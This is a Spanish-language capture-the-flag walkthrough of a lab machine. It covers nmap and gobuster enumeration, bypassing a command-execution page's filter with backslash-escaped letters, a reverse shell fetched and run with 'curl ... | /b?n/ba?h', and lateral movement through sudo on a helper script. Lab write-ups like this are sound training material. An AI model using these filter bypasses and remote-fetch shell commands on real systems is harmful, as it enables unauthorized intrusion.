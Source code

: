 ### nmap
```python
sudo nmap -p- --open -sS -sCV -n -Pn 10.10.95.51
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-18 18:53 EST
Nmap scan report for 10.10.95.51
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.51 seconds
```
### ports: 21/tcp - 22/ssh - 80/http

### Enumeración 80
![[Pasted image 20231118200242.png]]
la pagina principal parace no tener nada importante
### fuzzing con gobuster
![[Pasted image 20231118201742.png]]
### tenemos un monton de directorios pero el que nos llama mas la atencion es /secret asi que vamos a investigar
tenemos una pagina que al parecer nos permite ejecutar codigo
![[Pasted image 20231118202125.png]]
### Al parecer somos el usuario www-data  pero no podemos ejecutar cualquier codigo ya que nos da errores
### despues de una larga busqueda por internet y probar un monton de cosas hemos consegido que interponiendo la barra slash invertido en cada letra de comando al parecer nos deja ejecutarlo. usaremos esto para intentar enviarnos una reverse shell 
![[Pasted image 20231118212931.png]]
### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```
### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![[Pasted image 20231118214103.png]]
### veamos los permisos SUID
![[Pasted image 20231119202137.png]]
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.
### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando

```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20231119202426.png]]
### perfecto. somos apaar. hacemos tratamiento de tty y listamos directorios
![[Pasted image 20231119202943.png]]
###### El index.php parece no tener nada muy importante y en imagenes tampoco.
### seguimos buscando y conseguimos una ruta donde tenemos archivos muy interesantes
vamos a mirar el archivo hacker.php
![[Pasted image 20231119203534.png]]
###### tenemos lo que parece ser una pagina web con una imagen y un mensaje que dice: mira en la oscuridad y podrás conseguir la respuesta
### hacemos cat al siguiente archivo en este caso account.php
![[Pasted image 20231119203858.png]]
### en este caso tenemos informacion sobre una base de datos. nos dan pistas sobre el tipo de hash utilizados y parece que apunta a la tabla de usuarios
